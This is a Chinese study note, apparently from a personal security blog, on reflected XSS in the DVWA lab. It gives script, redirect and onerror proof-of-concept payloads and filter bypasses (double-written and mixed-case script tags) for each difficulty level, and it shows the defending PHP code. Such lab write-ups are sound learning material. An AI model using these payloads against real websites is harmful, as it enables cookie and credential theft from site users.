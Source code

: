 +++
date = "2020-02-05T19:36:26+08:00"
menu = ""
categories = ["渗透学习笔记"]
tags = ["XSS跨站脚本漏洞"]

banner = "banners/xssb.jpg"
title = "xss学习笔记——反射型"
description = "如何发现，并验证xss跨站脚本漏洞的存在"
images = []

+++

# 环境

- 靶机：dvwa
- 测试工具：BurpSuit，HackBar, Netcat

**XSS 漏洞产生的原因，和 SQL 注入有“异曲同工之妙”，所以 XSS 又称作“ HTML 注入”，都是没有对用户输入的内容，进行检查过滤而导致站点被恶意利用，或者服务器数据被窃取，那么如何发现 XSS 漏洞的存在呢**

## 一、验证思路

① 输入的内容提交后，查找当前页面中，有无显示输入的内容<br>
② 输入漏洞验证代码，看是否有效

## 二、漏洞验证Poc  

利用 HTML 语言中的几个常见的标签，以及 javascript，可以实现验证漏洞是否存在</br>
**例子中跳转的网页，我用的自己的路由器后台管理地址。**

```HTML
1 <script>alert('xss')</script>
2 <script>window.location="http://192.168.31.1"</script>
3 <script>window.open('http://192.168.31.1')</script>
3 <a href="http://192.168.31.1">click here</a>
4 <a href="" onclick=alert('xss')>click here</a>
5 <img src="http://192.168.31.1/a.img" onerror=alert('xss')>
```

当然，不是什么时候都会有效果</br>

随着靶场等级的提高，对用户的输入内容就会愈加严格检查和过滤</br>

思路要骚，才能绕过限制:D

### ① 靶场等级：low

没有任何过滤，输入的所有poc均生效

```php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

```

### ② 靶场等级：medl

匹配字符串非法字符，并替换为空字符串</br>

```php
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
```

Ⅰ. 双写绕过

```javascript
   <sc<script>ript>alert('xss')</script>
```

Ⅱ. 大、小写混写绕过

```javascript
   <ScrIPT>alert('xss')</script>
```

Ⅲ. 其他标签、事件绕过


### ③ 靶场等级：high

```php
// Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); 
```

加强了过滤规则，采用正则替换</br>

上一个方法中的双写、大小写都失效了

还好没有过滤其他的标签，和上一个一样，可以用其他标签触发XSS

### ④ 靶场等级：impossible

加入了 **user_token** 验证，和 **htmlspecialchars()** 函数对输入的字符串进行 “无害化处理”</br>

这个例子中，各种姿势也没用了T_T

```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
// Generate Anti-CSRF token
generateSessionToken();
?> 
```

# 总结

通过查阅freebuff上大佬的解释

> 可以看到，通过使用htmlspecialchars函数，解决了XSS，但是要注意的是，如果htmlspecialchars函数使用不当，攻击者就可以通过编码的方式绕过函数进行XSS注入，尤其是DOM型的XSS。

学到的三个防御xss的函数

- str_replace()
- preg_replace()
- htmlspecialchars()

反射型 xss，各种钓鱼链接都会利用网站存在 xss 结合钓鱼页面，骗取点击，获取受害者的登陆 cookie，或者是账号密码等信息</br>

接下来就是如何利用xss ，获取用户登陆 cookie，以及实现键盘记录器了：D

- [参考文章来自Freebuf](https://www.freebuf.com/articles/web/123779.html)